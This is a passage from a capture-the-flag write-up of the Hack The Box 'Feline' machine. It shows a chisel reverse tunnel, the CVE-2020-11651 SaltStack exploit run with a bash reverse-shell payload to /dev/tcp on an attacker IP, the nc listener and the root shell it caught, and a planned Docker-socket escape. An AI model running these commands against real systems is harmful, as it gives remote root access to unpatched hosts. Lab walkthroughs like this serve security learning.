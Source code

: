   make sure to start chisel on your machine

```shell
┌─[oxy@oxy]─[~/tools]
└──╼ $./chisel server -p 1234 --reverse
2020/10/05 16:18:30 server: Reverse tunnelling enabled
2020/10/05 16:18:30 server: Fingerprint 15:58:bc:2a:f9:48:07:84:14:84:6f:0c:e2:e8:10:76
2020/10/05 16:18:30 server: Listening on http://0.0.0.0:1234
```
 install salt `pip3 install salt` if not aready instaled. salt module
 will require to exploit our poc. download exploit.py from [**Here**](https://github.com/jasperla/CVE-2020-11651-poc) 


 run the exploit `python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.68/7001 0>&1"'`
 
```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]
└──╼ $python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.68/7001 0>&1"'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: Y+tBggUuWme0O2NLo3J9t3IvdcJ2CfDFC+G+1nLgiFe+9J7Jsjz4rW1zOJhUIk8pCBiJgBHrFwU=
[+] Attemping to execute bash -c "bash -i >& /dev/tcp/10.10.14.68/7001 0>&1" on 127.0.0.1
[+] Successfully scheduled job: 20201005105710964929
```

### Inside Docker

```shell
─[oxy@oxy]─[~/tools]
└──╼ $nc -lnvp 7001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::7001
Ncat: Listening on 0.0.0.0:7001
Ncat: Connection from 10.10.10.205.
Ncat: Connection from 10.10.10.205:42700.
bash: cannot set terminal process group (2070): Inappropriate ioctl for device
bash: no job control in this shell
root@2d24bf61767c:~# whoami
root
root@2d24bf61767c:~# ls
todo.txt
root@2d24bf61767c:~# cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.

```
we got the shell. found a `todo` ,its look  we are inside a docker container.in bash history we are given docker.sock which is odd and this docker is running SSH server.
now we will be create a new docker image and mount all data from previous one to here including root files
